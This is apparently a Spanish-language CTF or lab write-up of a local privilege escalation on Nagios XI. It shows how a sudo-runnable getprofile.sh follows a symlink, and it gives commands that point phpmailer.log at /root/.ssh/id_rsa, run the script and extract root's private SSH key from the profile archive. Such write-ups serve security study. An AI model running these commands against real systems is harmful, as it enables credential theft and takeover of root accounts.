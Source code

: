 El script comprueba si phpmailer.log existe en el directorio /usr/local/nagiosxi/tmp/ y si es así, utiliza el comando tail para copiar las últimas 100 líneas de este archivo de registro en una carpeta designada dentro de /usr/local/nagiosxi/var/components/profile/ . 

Dado que podemos ejecutar el script con privilegios elevados, esta funcionalidad es vulnerable.

La vulnerabilidad proviene del hecho de que el script no valida lo que es $carpeta ni asegura o la ruta utilizada en las operaciones de copia. Este descuido permite varios tipos de ataques al sistema de archivos. sistema de archivos, entre los que destacan:

Ataques de enlaces simbólicos: Un usuario puede crear un enlace simbólico ( symlink ) llamado phpmailer.log que apunta a un archivo sensible (por ejemplo, /root/.ssh/id_rsa ). Cuando el script se ejecute, seguirá el enlace simbólico y copiaría por error datos confidenciales en un directorio accesible.

Esto requiere que tengamos acceso a /usr/local/nagiosxi/tmp/phpmailer.log ,así que lo verificamos

```bash
ls -la /usr/local/nagiosxi/tmp/phpmailer.log 
ls -la /usr/local/nagiosxi/
```
![image](https://github.com/user-attachments/assets/67df0328-72af-41b4-b70a-3f39bf258b01)



Aunque el archivo de registro no existe, tenemos permisos de escritura en su directorio padre. A continuación, comprobamos la configuración SSH para ver si la autenticación como root está habilitada, y si PubkeyAuthentication está habilitado.

```bash
cat /etc/ssh/sshd_config | grep -E 'PermitRootLogin|PubkeyAuthentication'
```

![image](https://github.com/user-attachments/assets/aee32535-a449-452d-a42c-d3c73bac13b0)


Esta configuración significa que si el usuario root tiene una clave privada en su directorio .ssh, podremos usarla para autenticar.


Para llevar a cabo la explotación seguimos los siguientes pasos:


Crear un Symlink: Creamos un enlace simbólico llamado phpmailer.log en el directorio /usr/local/nagiosxi/tmp/ que apunte a un archivo sensible, como la clave privada SSH del usuario root:

```bash
ln -s /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
```

Ejecutamos el script que podemos ejecutar como sudo

```bash
sudo ./getprofile.sh 1
```

Acceder a los datos copiados: El script seguiría el enlace simbólico y copiaría el contenido de la clave privada SSH de root de root en la carpeta del perfil bajo nuestro control, 

```bash
rm /usr/local/nagiosxi/tmp/phpmailer.log 
ln -s /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log 
sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 1 
cp /usr/local/nagiosxi/var/components/profile.zip /tmp/ 
cd /tmp 
unzip profile.zip 
cat profile-/phpmailer.log
```
